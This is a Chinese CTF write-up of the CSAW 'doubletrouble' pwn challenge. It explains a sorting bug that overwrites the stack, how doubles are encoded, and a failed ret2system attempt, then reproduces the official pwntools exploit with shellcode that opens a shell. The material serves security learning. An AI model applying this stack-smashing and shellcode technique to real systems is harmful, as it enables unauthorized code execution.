 ```yaml
---
title: doubletrouble
categories:
- csaw
---
```

# casaw->doubletrouble

## 前言
之前也遇到了一道类似的题，但是没有涉及到浮点数在内存中的存储，这道题更加综合，也给出来了绕过canary的一种思路，因此详细写一下writeup

## 程序逻辑
主函数是game，用户首先输入array的长度，大于64直接崩，但是会打印出system函数的地址，这个地址是不固定的。当小于等于64的时候，用户依次输入数组元素，之后打印数组成员，给出元素之和，最大元素和最小元素，找到出题人喜欢的元素，对数组排序等，挨个查看内部的逻辑，最终可以找到函数异常的部分

![function](./1.jpg)
![function2](./2.jpg)

## 漏洞点

在findArray()里，len表示数组长度，当arrary_len小于2倍原数组长度的时候，如果数组元素大于-100而小于-10，就返回这个元素的下标，如果遍历所有的元素均未发现满足此条件的元素，直接返回第一个元素。程序的问题在于每次遍历寻找的时候，都会增加数组的长度，这使得如果找到一个满足条件的元素，数组的长度都会发生变化。当然在这里，还没有显示破坏性。在下面的sortArray里，由于用到array_len判断程序的结束部分，之前增加的array_len会使得排序的部分超过了数组原有部分，且直接修改栈上的值。
比如我们输入100、-20、100，第一个元素不满足条件，数组长度变为4，随后的排序中，会将100后面的元素也一同排序，假设后面的值为90，那么就会被替换成100

![find_array](./3.jpg)
![sort_array](./4.jpg)

## 补充知识

这次栈上的元素都是8字节的double类型，我们想往栈上写数据就要了解数据的表示。在IEEE 754标准下，32位浮点数和64位浮点数的表示如下：（其中S是sign，E为exponet，M为fraction）

![data_form](./5.jpg)
![32_float](./5.png)
![64_double](./6.png)
![calc](./6.jpg)

### 例子
![example](./7.jpg)

## 漏洞利用

程序开始打印了数组在栈上的地址，我们可以控制返回地址到system函数的地址，后面接参数'/bin//sh'，也可以让程序返回到数组，执行数组里的shellcode，我们挨个尝试一下

因为最后要排序，我们得看下ebp和return addr的大小关系，根据IDA里可看到数组地址为ebp-0x210，64个元素之后就是64*8 = 0x200,因此要再多输入3个元素才能覆盖到返回地址，其中，ebp-0xc存的是canary，不能受排序影响，即第65个元素不变，第66个元素随意，第67个元素为system函数地址，第68个元素为'/bin/sh'，测试发现canary有时候正有时候负，变化很大，看来只能假设它是个比返回地址大的数，这样不会和被替换的返回地址交换。最后发现被替换的部分总是正数，大于-20，因此永远不可能让-20等负数到canary的下面，所以这个方法GG

尝试第二种方式，首先找到system在got表中的地址，之后发现程序中包含'/bin/csh'，结合以前做题的经验，我们知道system('sh')一样可以执行，sh相对于字符串的偏移为25，即0x19，所以'sh'的地址为0x0804A12D，shellcode为:
```asm
push 0x804A12D
call dword ptr [0x804BFF0]
```
![system_got](./8.jpg)
![binsh_addr](./9.jpg)

最终栈的结构如下:shellcode + padding + ret_addr 
![ret_addr](./10.jpg)

##exp.py
因为canary的值老变化，所以最终的exp还是要看脸，要想全自动化可以写个while True然后判断返回结果，这里我自己的exp也没跑通，上个官方的吧

```python
#!/usr/bin/env python

from pwn import *
from struct import *
import re, base64


__LIBC__ = ""
__NAME__ = "doubletrouble"
__REMOTE__ = "pwn.chal.csaw.io"
__REMOTE_PORT__ = 9002
__GDB__ = """
c
"""



context.arch = 'i386'

if __name__ == "__main__":


	log.info("pwning %s"  % __NAME__)


	if args.REMOTE:

		log.info("remote run")
		r = remote(__REMOTE__, __REMOTE_PORT__)

	else:

		log.info("local run")

		if args.GDB:

			if args.GDB == 'attach':

				r = process("./%s" % __NAME__, env={'LD_PRELOAD': __LIBC__})
				log.info("attaching gdb...")
				gdb.attach(r.pid, __GDB__)	

			else:

				r = gdb.debug("./%s" % __NAME__, __GDB__)
		else:

			r = process("./%s" % __NAME__, env={'LD_PRELOAD': __LIBC__})

	r.recvuntil("0x")
	stack = r.recv(8)

	stack = int(stack, 16)
	log.info("stack 0x%x", stack)

	r.sendlineafter("long: ", str(64))

	pad = "%.20g" % unpack("<d", p64(0xf8ffffffffffffff))[0]
	jmp  = 0x080498A4ffffffff # ret gadget
	jmp2 = 0x0806000000000000 + stack # addr of shellcode


	sh1 = asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe')
	sh2 = asm("call dword ptr [0x804BFF0]").ljust(8, '\xfc')

	r.sendline("%.20g" % struct.unpack("<d", sh1)[0])
	r.sendline("%.20g" % struct.unpack("<d", sh2)[0])

	for i in range(0, 2):
		r.sendline(pad)

	r.sendline(str(-99))
	r.sendline( "%.20g" % struct.unpack("<d", p64(jmp))[0])
	r.sendline( "%.20g" % struct.unpack("<d", p64(jmp2))[0])

	for i in range(0, 64-7):
	 	r.sendline( pad)

	r.sendline("ls")
	r.interactive()

```
